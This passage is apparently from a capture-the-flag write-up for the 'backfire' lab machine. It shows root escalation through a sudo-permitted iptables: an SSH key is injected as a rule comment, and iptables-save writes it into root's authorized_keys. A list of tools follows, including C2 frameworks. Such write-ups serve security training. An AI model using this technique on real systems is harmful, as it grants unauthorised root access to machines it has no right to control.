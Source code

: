 ```bash
sergej@backfire:~$ sudo /usr/sbin/iptables-save -f /etc/passwd
Failed to open file, error: Operation not permitted
```

Failling back to what I did at each step of escalation in this box, I try to append my public key to the `authorized_keys` for root:

```bash
sergej@backfire:~$ sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AAAA.........................................................249S1xk something@mail.com\n'
sergej@backfire:~$ sudo /usr/sbin/iptables -S
-P INPUT ACCEPT
-P FORWARD ACCEPT
-P OUTPUT ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 5000 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 7096 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -i lo -m comment --comment "
ssh-ed25519 AAAA.........................................................249S1xk something@mail.com
" -j ACCEPT
```

Saving the file:

```bash
sergej@backfire:~$ sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```

And then connecting with `ssh`:

```bash
┌──(kali㉿kali)-[~/htb/box/backfire]
└─$ ssh root@backfire.htb         
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
root@backfire:~# wc root.txt 
 1  1 33 root.txt
```


# Misc

## Tools 
- `nmap`
- `Havoc`
- `HardHatC2`
- `iptables`
- `ssh` (tunneling)
- `dotnet`
